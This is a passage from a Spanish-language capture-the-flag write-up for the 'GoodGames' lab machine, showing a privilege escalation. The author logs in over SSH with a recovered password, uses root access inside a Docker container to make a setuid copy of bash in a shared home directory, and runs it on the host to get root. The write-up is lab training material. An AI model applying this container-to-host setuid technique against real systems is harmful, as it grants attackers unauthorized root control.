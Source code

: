 ```bash
augustus@GoodGames:~$ hostname -I
hostname -I
10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:feb9:c5db 
augustus@GoodGames:~$
```

### Escalación de Privilegios

##### *Explicación*: Tenemos que tener en cuenta que dentro del contenedor somos usuario root, pero dentro del host local de la máquina somos usuarios sin privilegios. 

##### En base a esto hay algo muy simple que podemos hacer que es copiar el binario "bash" de la máquina local hacia nuestro directorio $HOME y desde el contenedor, como usuario root modificar los privilegios para luego usarlo y ejecutar "./bash -p" y escalar el privilegio hacia root desde la el host local de la máquina.

#### Una vez planeado nuestro ataque:

- Nos conectamos por SSH:

```bash
ssh augustus@172.19.0.1
augustus@172.19.0.1's password: superadministrator
```

- Copiamos el binario /bin/bash hacia /home/augustus/bash

- Volvemos al contenedor y modificamos los permisos:

```bash
root@3a453ab39d3d:/home/augustus# chown root:root bash
chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4755 bash
chmod 4755 bash
root@3a453ab39d3d:/home/augustus# ls
ls
bash  user.txt
root@3a453ab39d3d:/home/augustus# ls -l
ls -l
total 1212
-rwsr-xr-x 1 root root 1234376 Jun 24 00:52 bash
-rw-r----- 1 root 1000      33 Jun 23 17:52 user.txt
root@3a453ab39d3d:/home/augustus#
```

- Nuevamente por SSH nos conectamos al host local de la máquina con el usuario augustus y ejecutamos "./bash -p"

```bash
augustus@GoodGames:~$ ./bash -p
./bash -p
bash-5.1# whoami
whoami
root
bash-5.1#
```
